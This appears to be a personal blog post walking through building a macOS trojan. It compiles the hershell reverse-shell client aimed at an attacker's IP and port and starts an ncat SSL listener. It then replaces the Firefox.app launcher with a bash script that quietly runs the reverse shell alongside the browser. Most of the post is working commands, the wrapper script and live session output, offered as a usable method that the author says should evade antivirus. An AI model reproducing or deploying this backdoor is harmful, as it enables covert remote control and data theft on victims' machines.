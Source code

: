 ```yaml
---
title: 'Building a MacOS Trojan'
layout: post
permalink: building-mac-trojan
tags: all, mac, cybersecurity
---
```


This article will outline a simple method I used for building and deploying malware on MacOS. I wanted to do this to prepare for reading Patrick Wardle's book [The Art of Mac Malware](https://taomm.org/).

## Setting up the Reverse Shell:

A simple reverse shell will serve as the base malicious payload that will be executed on the victim machine. I like this method because it is extremely simple and should evade antivirus.

I'm going to use [hershell](https://github.com/lesnuages/hershell), a very simple, cross-platform reverse shell client written in Go. I'll compile the client and server on an Arch Linux machine.

### Setup Hershell:

```bash
pacman -Sy --noconfirm go
```

Since I don't need the go environment to persist on my server, let's set the `GOPATH` variable to `/tmp/go` and grab hershell:

```bash
export GOPATH=/tmp/go
go get github.com/lesnuages/hershell
go get github.com/lesnuages/hershell/shell
```

### Compile Hershell for MacOS Victim:

Now prepare and compile hershell for the MacOS victim (change the `LHOST` and `LPORT` variables to your attacking machine/server):

```bash
cd /tmp/go/src/github.com/lesnuages/hershell/
make depends

make macos64 LHOST=192.168.1.50 LPORT=5000
```

The MacOS binary for the victim machine should now be available at `/tmp/go/src/github.com/lesnuages/hershell/hershell`:

```bash
❯ file /tmp/go/src/github.com/lesnuages/hershell/hershell
/tmp/go/src/github.com/lesnuages/hershell/hershell: Mach-O 64-bit x86_64 executable
```

### Setup the Malicious Listener on Server:

Generate the server certificate for hershell and install nmap so that we can use `ncat` as the listener on the attacking server:

```bash
cd /tmp/go/src/github.com/lesnuages/hershell/
make depends

pacman -Sy --noconfirm nmap
```

Then run the listener on the attacking machine:

```bash
ncat --ssl --ssl-cert /tmp/go/src/github.com/lesnuages/hershell/server.pem --ssl-key /tmp/go/src/github.com/lesnuages/hershell/server.key -lvp 5000
```

This is what it looks like when a session is established:

```bash
❯ ncat --ssl --ssl-cert /tmp/go/src/github.com/lesnuages/hershell/server.pem --ssl-key /tmp/go/src/github.com/lesnuages/hershell/server.key -lvp 5000
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::5000
Ncat: Listening on 0.0.0.0:5000
Ncat: Connection from 192.168.1.2.
Ncat: Connection from 192.168.1.2:52866.
[hershell]> whoami
heywoodlh
[hershell]> echo $HOSTNAME
unix-machine
```


## Trojanize an Application:

I'm going to trojanize Firefox since I use Firefox a ton. This method is super simplistic, but it gets the job done. And most likely, it wouldn't be detected unless a user was vigilant.

I'm going to perform the following commands on a Mac with Firefox already installed. You could replace Firefox with another application if you wanted to.

Copy Firefox.app:

```bash
cp -r /Applications/Firefox.app /tmp/Firefox-trojan.app
```

Place the `hershell` binary that you created on the attacking server in `/tmp/Firefox-trojan.app/Contents/MacOS`.

Rename the original Firefox binary file:

```bash
cd /tmp/Firefox-trojan.app/Contents/MacOS
mv firefox firefox.orig
```

Now create a shell script in place of the `firefox` binary that will run hershell and then will run the original `firefox` binary:

```bash
touch firefox
chmod +x firefox
```

Then add the following content to the new `firefox` file:

```bash
#!/usr/bin/env bash

full_path=$(dirname $(realpath $0))

/usr/bin/screen -dmS reverse-shell ${full_path}/hershell

${full_path}/firefox-bin
```

This method will use the `screen` command to run hershell in the background with a session name of `reverse-shell`. This method is not discrete at all, but I don't really care in this case.


## Profit:

When the Firefox-trojan.app is opened, it should attempt to create a reverse shell with the attacking server that is listening for a connection.

![alt text](https://raw.githubusercontent.com/heywoodlh/the-empire.systems/master/images/trojan-firefox.png "Trojanized Firefox")

